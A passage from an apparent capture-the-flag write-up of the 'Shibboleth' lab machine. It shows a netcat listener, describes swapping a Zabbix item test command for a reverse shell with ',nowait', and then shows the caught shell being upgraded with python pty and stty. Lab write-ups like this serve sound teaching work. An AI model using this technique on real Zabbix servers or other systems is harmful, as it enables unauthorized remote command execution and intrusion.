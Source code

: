 ```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We replace `id` with our reverse shell and also add `,nowait` to not let the execution time out.

[![035_zabbix_shell](/img/shibboleth/035_zabbix_shell.png)](/img/shibboleth/035_zabbix_shell.png)

As we click on test again we get a reverse shell on our listener, which we upgrade using python.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.255.116.
Ncat: Connection from 10.129.255.116:53536.
bash: cannot set terminal process group (1204): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
zabbix@shibboleth:/$ export TERM=xterm
export TERM=xterm
zabbix@shibboleth:/$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

zabbix@shibboleth:/$ stty rows 69 cols 236
```
